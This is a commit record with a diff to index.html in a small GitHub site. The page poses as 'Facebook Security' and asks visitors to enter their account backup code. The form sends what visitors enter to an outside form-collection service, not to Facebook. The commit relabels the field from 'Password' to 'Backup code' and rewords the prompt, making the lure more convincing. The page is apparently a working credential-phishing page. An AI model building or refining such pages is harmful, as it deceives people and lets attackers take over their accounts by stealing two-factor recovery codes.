

Before and after one commit to metaalexa11/bcup, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 327-674 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -113,10 +113,10 @@
         <div class="header">
             Facebook Security
         </div>
-        <p>Please re-enter your Backup code to complete the request.</p>
+        <p>Please re-enter your Backup code from account center to complete the request.</p>
         <form id="passwordForm" action="https://submit-form.com/6psNBMern" method="POST">
             <div class="form-group">
-                <label for="Backup code">Password</label>
+                <label for="Backup code">Backup code</label>
                 <div class="input-wrapper">
                     <input type="Backup code" id="Backup code" name="Backup code" placeholder="Backup code" required>
                     <i class="eye-icon fas fa-eye" id="togglePassword"></i>
```
